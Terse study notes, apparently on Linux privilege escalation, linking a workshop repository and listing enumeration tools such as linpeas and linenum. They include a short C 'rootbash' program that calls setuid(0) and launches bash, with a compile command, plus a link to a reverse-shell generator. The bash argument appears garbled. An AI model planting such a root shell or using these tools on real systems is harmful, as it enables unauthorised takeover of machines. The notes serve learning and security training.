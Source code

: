

https://github.com/sagishahar/lpeworkshop

https://github.com/tib3rius


rootbash - /bin/bash with setuid set


int main() {
    setuid(0);
    system("/bin/bash /p");
}

gcc -o <name> <filename.c>

reverse shell


https://github.com/mthbernardes/rsg


lse
linenum
linpeas
linuxprivchecker
beroot
unix-privesc-check


linux-exploit-sugester-2